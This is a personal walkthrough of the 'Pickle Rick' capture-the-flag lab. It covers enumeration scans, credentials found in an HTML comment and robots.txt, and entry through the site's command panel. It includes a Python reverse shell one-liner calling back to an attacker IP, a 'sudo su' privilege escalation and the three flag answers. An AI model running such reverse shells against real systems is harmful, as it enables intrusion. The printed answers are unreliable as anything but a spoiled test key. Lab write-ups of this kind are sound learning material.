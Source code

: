 # Pickle Rick

TODO: Fix links

[Initial nmap scan](./logs/nmap_init.log)

[Gobuster scan](./logs/gobuster.log)

[Nikto scan](./logs/nikto.log)

On the main page:

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

robots.txt

```
Wubbalubbadubdub
```

[nmap all ports scan](./logs/nmap_all_ports.log)

[gobuster PHP root pages scan](./logs/gobuster-php-root.log)

Found a login.php, made a [brute force](./scripts/bruteforce.py) script to check for password, no password found

I dug around the site more and decided to take a look at the pictures. Using `strings`, found that the picture from the home page might have a secret in it based on it's beginning

![rick and morty running from their own demons](./img/rickandmorty.jpeg)

After searching around, I found `steghide`, which is used to hide data, though it looks to require a password.

After more searching, I found `stegseek` and decided to install and use it, nothing...

I changed my script around to be able to use `rockyou.txt`, after a while running that I realized that `Wubbalubbadubdub` was probably the password. And it was! Now we're onto something...

On the page after login page:

```html
<!-- Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== -->
```

It was not worth it.

The starting page has a command input, which takes in commands directly. I reverse shell'd in.

```bash
export RHOST="10.6.89.232";export RPORT=4848;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

Then, there was an ingredient file in `www-data`

***What is the first ingredient Rick needs?*** [`mr. meeseek hair`]

There was a `clue.txt` which suggested looking around. After searching using `find / -name "*ngre*" 2>/dev/null`, it found something in a `rick` user's home folder. I opened the file in there 

***What is the second ingredient Rick needs?*** [`1 jerry tear`]

Decided to look for any SUID bit files. No dice

After a long ass time while searching around, beating my head against the desk, researching priv esc, my dumb ass finally tries `sudo su`. Guess what...

`cat /root/3rd.txt`

***What is the final ingredient Rick needs?*** [`fleeb juice`]
